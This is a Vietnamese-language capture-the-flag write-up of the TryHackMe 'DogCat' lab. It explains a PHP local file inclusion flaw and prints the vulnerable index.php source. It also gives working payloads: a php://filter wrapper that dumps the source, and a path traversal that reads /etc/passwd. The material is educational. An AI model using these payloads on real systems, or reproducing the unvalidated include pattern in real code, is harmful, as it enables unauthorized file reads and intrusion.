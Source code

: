 ### Write-up lab DogCat TryHackMe
Ở lab này, ta có thể lợi dụng PHP wrapper để thực thi RCE trong một docker của một machine của TryHackMe. Lần đầu tiên làm lab này, mình đã quên mất rằng mình đang VPN đến network của TryHackMe cho nên các kĩ thuật rev-shell đã không hoạt động do mình không thực hiện bắt socket của lab trong network riêng của TryHackMe. Tuy vậy nhưng ta vẫn có thể lấy toàn bộ 4 flag của lab qua các kĩ thuật khác mà không sử dụng Attack-box của TryHackMe, khiến cho quá trình làm lab phức tạp và dư thừa hơn một chút D:

Tuy vậy, nhờ đó mà mình có thể học thêm một số kiến thức mới cũng như là có thể thực hành các kĩ thuật phức tạp hơn để có thể khai thác.

### Khai thác lỗ hổng PHP wrapper, path traversal, LFI
Challenge này nhận param `view` với hai giá trị là `dog` và `cat`. Sau khi thử nghiệm các payload, nhận thấy rằng service sẽ trả về lỗi nếu giá trị của view chứa giá trị ngẫu nhiên khác, ví dụ:
```http
GET /?view=dogdog HTTP/1.1
Host: 10.10.25.253
```
```
Warning: include(): Failed opening 'dogdog.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php
```
Như vậy, rõ ràng service đã dính lỗ hổng LFI. Query `/?view` sẽ được gọi nếu có chứa `dog` hoặc `cat`, sau đó gán `.php` để gọi file, ví dụ `dog.php`.

Mục tiêu hiện giờ là có thể đọc được file `index.php`, ta có thể thực hiện bypass như sau:
```http
/?view=php://filter/convert.base64-encode/resource=dogcat/../index
```

### Phân tích source code

Nội dung php của file `index.php`:
```php
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
Như vậy, ta đã hiểu lý do vì sao service trả về lỗi. Lỗ hổng chính nằm ở dòng code:
```php
include $_GET['view'] . $ext;
```
Ở đây, service sẽ include toàn bộ file có giá trị của view + biến ext mà không hề có biện pháp validate nào khác ngoại trừ kiểm tra chuỗi đơn giản. Để có thể đọc file khác file php, ta chỉ cần làm giá trị biến `ext` là rỗng, ví dụ: 
```
/?view=dog/../../../../etc/passwd&ext=
```
Như vậy, với cách bypass trên ta có thể thực hiện đọc toàn bộ file của hệ thống.
